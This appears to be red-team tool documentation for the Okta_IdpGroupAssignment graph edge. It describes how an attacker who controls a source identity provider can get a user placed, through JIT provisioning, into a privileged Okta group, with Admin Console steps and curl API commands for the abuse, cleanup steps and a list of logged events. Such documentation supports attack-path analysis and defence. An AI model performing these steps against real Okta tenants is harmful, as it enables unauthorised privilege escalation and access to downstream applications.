

## General Information

The non-traversable Okta_IdpGroupAssignment edges represent Okta group assignments configured on an identity provider's JIT provisioning policy:



OpenHound emits this edge from `policy.provisioning.groups.assignments` on the source IdP. The edge does not mean every user authenticated by the IdP is already in the destination group; it means the IdP policy can place IdP-authenticated or JIT-provisioned users into that group.

## Abuse Info

This edge is not directly abusable by itself. An attacker who controls the source IdP can abuse it by signing in with an external identity that Okta links or provisions through the IdP, causing Okta to add the resulting Okta user to the destination group. The destination group can then grant app assignments, admin role inheritance, policy targeting, group push, or downstream SaaS roles.

The useful adjacent edges are `Okta_IdentityProviderFor`, `Okta_InboundSSO`, and `Okta_InboundOrgSSO`. Those edges show which user or source tenant can authenticate through the IdP; `Okta_IdpGroupAssignment` shows which Okta group that authentication can grant.

Using the Admin Console and source IdP:

1. Gain control of the source IdP, a linked external user, or the IdP signing material.
2. In Okta, open **Security** > **Identity Providers** and select the source IdP.
3. Review the IdP's JIT provisioning and group assignment settings for the destination group.
4. In the source IdP, create or modify an external user whose subject, email, username, or immutable ID will link to an attacker-controlled Okta user or trigger JIT provisioning.
5. Authenticate to Okta through the source IdP.
6. Let Okta link or create the Okta user and apply the IdP group assignment.
7. Start a fresh Okta session or request new application tokens so the destination group claim and assignments are evaluated.
8. Use any application assignments, role assignments, policies, or group-push paths granted by the destination group.

Using the Okta API:

1. Set variables for the Okta org, source IdP, destination group, and affected Okta user.

    ```bash
    export OKTA_ORG="https://contoso.okta.com"
    export OKTA_API_TOKEN="REDACTED"
    export IDP_ID="0oa..."
    export TARGET_GROUP_ID="00g..."
    export CONTROLLED_OKTA_USER_ID="00u..."
    ```

2. Retrieve and save the IdP configuration, then confirm that the destination group is assigned by the IdP provisioning policy.

    ```bash
    curl -sS \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/idps/$IDP_ID" \
      | tee /tmp/okta-idp-group-assignment-original.json \
      | jq '{id, type, name, status, provisioning: .policy.provisioning}'

    jq -r '.policy.provisioning.groups.assignments[]?' /tmp/okta-idp-group-assignment-original.json
    ```

3. Verify the destination group and its assigned applications.

    ```bash
    curl -sS \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/groups/$TARGET_GROUP_ID" \
      | jq '{id, type, name: .profile.name, description: .profile.description}'

    curl -sS \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/groups/$TARGET_GROUP_ID/apps?limit=200" \
      | jq -r '.[] | [.id, .label, .name, .status] | @tsv'
    ```

4. Modify or authenticate the external IdP user in the source IdP. If the source IdP exposes an API, change the source-side user or group claim there. The exact endpoint is IdP-specific.

    ```bash
    export SOURCE_IDP_API_BASE="https://idp.example.com/api"
    export SOURCE_IDP_TOKEN="REDACTED_SOURCE_TOKEN"
    export SOURCE_IDP_USER_ID="external-user..."
    export TEMP_IDP_GROUP_VALUE="Employees"

    curl -i -sS -X PATCH \
      -H "Authorization: Bearer $SOURCE_IDP_TOKEN" \
      -H "Accept: application/json" \
      -H "Content-Type: application/json" \
      -d "{\"groups\":[\"$TEMP_IDP_GROUP_VALUE\"]}" \
      "$SOURCE_IDP_API_BASE/users/$SOURCE_IDP_USER_ID"
    ```

5. Complete the browser SSO flow through the source IdP. Okta applies the destination group assignment during the IdP authentication or JIT provisioning flow.

6. Verify that the controlled Okta user is now a member of the destination group.

    ```bash
    curl -sS \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/groups/$TARGET_GROUP_ID/users?limit=200" \
      | jq -r '.[] | select(.id == env.CONTROLLED_OKTA_USER_ID) | [.id, .profile.login, .status] | @tsv'
    ```

## Cleanup after Abuse

Cleanup for `Okta_IdpGroupAssignment` means removing the source IdP claim or JIT condition that placed the user into the destination group, restoring the IdP group-assignment policy if it was changed, and removing the temporary Okta group membership and tokens.

Cleanup using Admin Console:

1. In the source IdP, remove the temporary user, claim, group value, or assertion behavior that triggered the destination group assignment.
2. In Okta, open **Security** > **Identity Providers** and restore the original group assignment policy for the source IdP.
3. Open **Directory** > **Groups** and remove the controlled Okta user from the destination group if the membership persists.
4. Delete JIT-provisioned users created only for the operation.
5. Revoke sessions for the controlled Okta user.
6. Wait for downstream group push or app authorization to remove access granted by the destination group.

Cleanup using API:

1. Restore the source IdP-side user or claim value. Replace the endpoint with the source IdP's official API.

    ```bash
    export ORIGINAL_IDP_GROUP_VALUE="Contractors"

    curl -i -sS -X PATCH \
      -H "Authorization: Bearer $SOURCE_IDP_TOKEN" \
      -H "Accept: application/json" \
      -H "Content-Type: application/json" \
      -d "{\"groups\":[\"$ORIGINAL_IDP_GROUP_VALUE\"]}" \
      "$SOURCE_IDP_API_BASE/users/$SOURCE_IDP_USER_ID"
    ```

2. Restore the saved Okta IdP configuration if the group-assignment policy was modified.

    ```bash
    curl -sS -X PUT \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      -H "Content-Type: application/json" \
      -d @/tmp/okta-idp-group-assignment-original.json \
      "$OKTA_ORG/api/v1/idps/$IDP_ID" \
      | jq '{id, type, name, status, provisioning: .policy.provisioning}'
    ```

3. Remove the temporary Okta group membership if it remains.

    ```bash
    curl -i -sS -X DELETE \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/groups/$TARGET_GROUP_ID/users/$CONTROLLED_OKTA_USER_ID"
    ```

4. Revoke sessions and OAuth tokens for the controlled Okta user.

    ```bash
    curl -i -sS -X DELETE \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/users/$CONTROLLED_OKTA_USER_ID/sessions?oauthTokens=true"
    ```

5. Verify the controlled user is no longer in the destination group.

    ```bash
    curl -sS \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/groups/$TARGET_GROUP_ID/users?limit=200" \
      | jq -r '.[] | select(.id == env.CONTROLLED_OKTA_USER_ID)'
    ```

## Opsec Considerations

Okta can record `user.authentication.auth_via_IDP`, `user.authentication.auth_via_inbound_SAML`, `user.lifecycle.create` for JIT-created users, `group.user_membership.add`, `group.user_membership.remove`, and IdP configuration events such as `system.idp.lifecycle.update`. Downstream applications may also log new access once group-assigned apps or pushed groups become active.

The source IdP's audit logs are just as important. A source-side group or claim change immediately followed by an Okta login and privileged Okta group membership is a strong correlation chain for defenders.

## References

- [Okta Identity Providers API](https://developer.okta.com/docs/api/openapi/okta-management/management/tag/IdentityProvider/)
- [Okta Group API](https://developer.okta.com/docs/api/openapi/okta-management/management/tag/Group/)
- [Okta User Sessions API](https://developer.okta.com/docs/api/openapi/okta-management/management/tag/UserSessions/)
- [Okta System Log event types](https://developer.okta.com/docs/reference/api/event-types/)
- [Okta Enterprise Identity Provider guide](https://developer.okta.com/docs/guides/add-an-external-idp/openidconnect/main/)
- [Adam Chester: Identity Providers for RedTeamers](https://blog.xpnsec.com/identity-providers-redteamers/)
